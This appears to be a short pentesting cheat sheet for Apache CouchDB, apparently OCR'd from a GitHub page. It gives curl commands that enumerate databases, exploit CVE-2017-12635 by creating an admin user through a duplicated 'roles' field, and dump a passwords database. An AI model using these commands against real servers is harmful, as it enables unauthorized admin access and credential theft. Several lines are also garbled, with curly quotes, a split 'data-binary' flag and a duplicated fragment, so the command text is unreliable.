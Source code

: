 ```bash - kali
curl http://$TARGET:5984/
```
```bash - kali
curl -X GET http://$TARGET:5984/_all_dbs
```
```bash - kali
curl -X GET http://user:password@$TARGET:5984/_all_dbs
```
### CVE-2017-12635 RCE
#### Create user
```bash - kali
curl -X PUT ‘http://$TARGET:5984/_users/org.couchdb.user:chenny' -- data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```
#### Dump database
```bash - kali
curl http://$TARGET:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword
```
#### Dump passwords
```bash - kali
curl -X GET http://user:passwords@$TARGET:5984/passwords
```